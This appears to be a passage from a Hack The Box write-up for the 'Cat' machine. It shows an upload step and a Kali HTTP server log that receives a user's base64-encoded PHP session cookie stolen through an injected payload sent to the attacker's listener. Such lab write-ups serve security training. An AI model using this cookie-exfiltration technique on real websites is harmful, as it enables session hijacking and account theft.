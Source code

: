 ![](images/2025-02-02_12-07_80_website_upload.png)

![](images/2025-02-02_12-09_80_website_upload_successful.png)

Shortly after we performed the upload action, we received the `Base64 encoded` `session cookie` of `axel`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Cat/serve]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.73.41 - - [02/Feb/2025 12:26:47] code 404, message File not found
10.129.73.41 - - [02/Feb/2025 12:26:47] "GET /x?cookie=UEhQU0VTU0lEPWV2MTVocnQzczNzN2FnMXQ0dWZzbHBvdjZp HTTP/1.1" 404 -
```

